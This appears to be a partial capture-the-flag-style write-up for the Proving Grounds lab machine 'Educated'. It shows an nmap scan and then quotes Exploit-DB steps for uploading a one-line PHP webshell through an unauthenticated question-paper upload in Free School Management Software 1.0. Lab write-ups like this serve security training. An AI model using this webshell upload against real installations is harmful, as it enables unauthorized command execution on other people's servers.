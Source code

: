 ```yaml
---
layout: default
title: Educated
parent: Proving Grounds Practice - Linux
nav_order: 16
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.173.13

Nmap scan report for 192.168.173.13
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Wisdom Elementary School
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

---

After considerable enumeration, the writeup indicates source code for the real site source code needs to be consulted for the following:

1. Determining that the site is using "Free School Management Software 1.0"
2. Reading the source code to see the "exanQustion" function does not do any authorization/authentication checks.

The exploit located at https://www.exploit-db.com/exploits/50587 lists the following steps to exploit:

```
Steps to exploit:
1) Navigate to http://localhost/admin/manage_profile
2) click "ADD NEW QUESTION PAPER" edit base infomation
3) uploading a php webshell containing "<?php system($_GET["cmd"]); ?>" in
the Field  "upload Drag and drop a file here or click"
3) Click "save"
4) open  http://localhost/uploads/exam_question/cmd.php?cmd=phpinfo() then
php code execution
Proof of concept (Poc):
The following payload will allow you to run the javascript -
<?php system($_GET["cmd"]); ?>
```
